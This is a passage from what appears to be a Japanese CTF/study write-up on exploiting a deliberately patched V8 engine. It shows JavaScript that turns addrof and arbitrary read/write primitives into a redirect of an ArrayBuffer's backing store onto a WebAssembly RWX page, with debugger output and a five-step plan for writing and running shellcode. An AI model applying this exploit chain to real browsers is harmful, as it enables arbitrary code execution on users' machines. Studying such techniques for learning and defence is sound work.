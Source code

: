オブジェクト中の数値が全て64bitではなく目視で見つけるのが面倒なことから、`search`コマンドで探すと0x250608084a44にこの値が確認できる(他にも見つかるが、色々実験してみると当たりはここであることがわかった)。これはbufの配置アドレスから0x14を足した箇所なので`addrof(buf) + 0x14`をAAWで書き換えれば、bufを内包する`DataView`のdvは書き換えたポインタが指す先に対して読み書きをするようになる。

これを実現するためのコードは次のようになる(RWX領域のアドレスを書き換え先として設定するまでのコード)。

```javascript
let aaw_buf = new ArrayBuffer(0x400);
let dv = new DataView(aaw_buf);
let backing_store_addr = addrof(aaw_buf) + 0x14n;

function set_address_aaw_outside(addr) {
    aaw(backing_store_addr, addr);
}

let wasm_addr = addrof(wasm_instance);
let rwx_addr = aar(wasm_addr + 0x68n)

set_address_aaw_outside(rwx_addr)
```

この時のaaw\_bufのbacking\_storeを確認すると0xdadc7fc3000となっている。

```txt
d8> %DebugPrint(aaw_buf)
DebugPrint: 0x20fc080860dd: [JSArrayBuffer]
 - map: 0x20fc0824317d <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x20fc08208ba9 <Object map = 0x20fc082431a5>
 - elements: 0x20fc080426dd <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0xdadc7fc3000
 - byte_length: 1024
```

vmmapコマンドで権限を確認するとrwxとなっており、確かにWasmで生成された領域へのポインタがbacking_storeに書き込まれことがわかる。

```txt
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
     0xdadc7fc3000      0xdadc7fc4000 rwxp     1000      0 [anon_dadc7fc3]
    0x20fc00000000     0x20fc0000c000 rw-p     c000      0 [anon_20fc00000]
    0x20fc0000c000     0x20fc00040000 ---p    34000      0 [anon_20fc0000c]
    ... (略)
```

### Exploit

以上で各プリミティブが揃ったので組み合わせて任意コード実行を実現する。具体的な流れは次のようになる。

1. addrofでWasmのインスタンスのアドレスを特定する
2. 特定したアドレスに固定オフセットの0x68を足した箇所をAARで読んでRWX領域のアドレスを特定する
3. v8 heapの外側へのAAWを行うために、`ArrayBuffer`のbacking_storeをv8 heap内におけるAAWでRWX領域のアドレスに書き換える
4. backing_storeを書き換えた`ArrayBuffer`に対して`DataView`等を用いてシェルコードを書き込む
5. Wasmのコードを実行する


[^1]: Heap Exploitの簡単な問題を解いたことがある(私自身がこれ)ぐらいを想定しているが、AARとAAWが出来ると何が嬉しいかなんとなくわかっていれば問題ないと思う
[^2]: 手元でビルドするメリットも存在し、[katagaitai CTF勉強会 #11 Pwnable編 - PlaidCTF 2016 Pwnable666 js_sandbox / katagaitai CTF #11 - Speaker Deck](https://speakerdeck.com/bata_24/katagaitai-ctf-number-11?slide=28)によれば、printfやインラインアセンブリ(`int3`)によるデバッグの効率化等があるらしい
[^3]: 脆弱性を埋め込むパッチを埋め込んでいない場合は、配列の外側を参照することになるためundefinedになる